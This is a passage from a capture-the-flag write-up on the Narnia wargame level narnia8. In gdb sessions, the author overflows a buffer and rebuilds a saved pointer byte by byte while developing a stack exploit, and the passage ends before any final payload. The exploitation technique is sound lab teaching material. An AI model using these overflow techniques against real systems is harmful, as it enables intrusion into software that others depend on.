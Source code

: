 ```
   0x080484bf <+47>:	mov    eax,0x0
   0x080484c4 <+52>:	leave
   0x080484c5 <+53>:	ret
End of assembler dump.
(gdb)
```

Okay, let’s try to restore the original pointer to our string, here it’s `0xffffd871` :

```
(gdb) run $(python -c 'print 20 * "A"')
Starting program: /narnia/narnia8 $(python -c 'print 20 * "A"')

Breakpoint 1, 0x08048485 in func ()
(gdb) x/16x $esp
0xffffd66c:	0x08048550	0xffffd674	0x41414141	0x41414141
0xffffd67c:	0x41414141	0x41414141	0x41414141	0xffffd871
0xffffd68c:	0xffffd698	0x080484a7	0xffffd871	0x00000000
0xffffd69c:	0xf7e2a286	0x00000002	0xffffd734	0xffffd740
```

So, let’s add 1 byte to the payload (`0x71`)

```
(gdb) run $(python -c 'print 20 * "A" + "\x71"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia8 $(python -c 'print 20 * "A" + "\x71"')

Breakpoint 1, 0x08048485 in func ()
(gdb) x/16x $esp
0xffffd66c:	0x08048550	0xffffd674	0x41414141	0x41414141
0xffffd67c:	0x41414141	0x41414141	0x41414141	0xffff4c71
0xffffd68c:	0xffffd698	0x080484a7	0xffffd870	0x00000000
0xffffd69c:	0xf7e2a286	0x00000002	0xffffd734	0xffffd740
```

Hum, the orginal address shifted down to `0xffffd870`, let’s fix that :

```
(gdb) run $(python -c 'print 20 * "A" + "\x70"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia8 $(python -c 'print 20 * "A" + "\x70"')

Breakpoint 1, 0x08048485 in func ()
(gdb) x/16x $esp
0xffffd66c:	0x08048550	0xffffd674	0x41414141	0x41414141
0xffffd67c:	0x41414141	0x41414141	0x41414141	0xffffd870
0xffffd68c:	0xffffd698	0x080484a7	0xffffd870	0x00000000
0xffffd69c:	0xf7e2a286	0x00000002	0xffffd734	0xffffd740
```

So far, so good. Let’s add a second byte, `0xd8` :
